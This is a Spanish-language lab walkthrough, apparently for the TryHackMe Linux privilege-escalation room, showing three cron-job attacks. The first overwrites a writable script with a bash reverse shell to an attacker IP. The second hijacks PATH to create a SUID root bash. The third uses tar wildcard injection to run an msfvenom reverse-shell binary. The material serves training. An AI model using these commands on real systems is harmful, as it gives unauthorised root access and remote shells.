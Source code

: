 # Cron Job

Cron  ejecuta automáticamente comandos o scripts (grupos de comandos) a una hora o fecha específica.

## File Permissions

Las tareas cron son programas o scripts que los usuarios pueden programar para que se ejecuten en momentos o intervalos específicos. Los archivos de tabla cron (crontabs) almacenan la configuración para las tareas cron. La tabla cron del sistema se encuentra en /etc/crontab.&#x20;

```
cat /etc/crontab

# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh


```

Debería haber dos tareas cron programadas para ejecutarse cada minuto. Una ejecuta overwrite.sh, la otra ejecuta /usr/local/bin/compress.sh. Localiza la ruta completa del archivo overwrite.sh:

```
locate overwrite.sh
```

Nota que el archivo tiene permisos de escritura para todos:

```
ls -l /usr/local/bin/overwrite.sh
```

Reemplaza el contenido del archivo overwrite.sh con el siguiente después de cambiar la dirección IP por la de tu máquina Kali.

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

Configura un escucha netcat en tu máquina Kali en el puerto 4444 y espera a que se ejecute la tarea cron.Un shell de root debería conectarse de vuelta a tu escucha netcat.

```
nc -nvlp 4444
```

## PATH Environment Variables

Visualiza el contenido de la tabla cron del sistema:

```
cat /etc/crontab
```

Nota que la variable PATH comienza con /home/user, que es el directorio principal de nuestro usuario.

Crea un archivo llamado overwrite.sh en tu directorio principal con el siguiente contenido:

```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

Asegúrate de que el archivo sea ejecutable:

```
chmod +x /home/user/overwrite.sh
```

Espera a que se ejecute la tarea cron. Ejecuta el comando /tmp/rootbash con -p para obtener un shell que se ejecute con privilegios de root:

```
/tmp/rootbash -p
```

Recuerda eliminar el código modificado, eliminar el ejecutable /tmp/rootbash y salir del shell elevado antes de continuar, ya que crearás este archivo nuevamente más adelante en la tarea.

```
rm /tmp/rootbash
exit
```

## Wildcards

Visualiza el contenido del otro script de tarea cron:

```
cat /usr/local/bin/compress.sh
```

Observa que el comando tar se está ejecutando con un comodín (\*) en tu directorio principal.

Consulta la página GTFOBins para tar. Observa que tar tiene opciones de línea de comandos que te permiten ejecutar otros comandos como parte de una función de punto de control.

Usa msfvenom en tu máquina Kali para generar un binario ELF de shell inversa. Actualiza la dirección IP LHOST en consecuencia:

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```

Transfiere el archivo shell.elf a /home/user/ en la máquina virtual Debian. Asegúrate de que el archivo sea ejecutable:

```
chmod +x /home/user/shell.elf
```

Crea estos dos archivos en /home/user:

```
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

Cuando se ejecute el comando tar en la tarea cron, el comodín (\*) se expandirá para incluir estos archivos. Dado que los nombres de archivo son opciones de línea de comandos válidas para tar, tar los reconocerá como tales y los tratará como opciones de línea de comandos en lugar de nombres de archivo.

Configura un oyente de netcat en tu máquina Kali en el puerto 4444 y espera a que se ejecute la tarea cron. Un shell de root debería conectarse de vuelta a tu oyente de netcat.

```
nc -nvlp 4444
```

Recuerda salir del shell de root y eliminar todos los archivos que creaste para evitar que la tarea cron se ejecute nuevamente:

```
rm /home/user/shell.elf
rm /home/user/--checkpoint=1
rm /home/user/--checkpoint-action=exec=shell.elf
```

<mark style="color:red;">**CTF**</mark>

{% embed url="https://tryhackme.com/room/linuxprivesc" %}
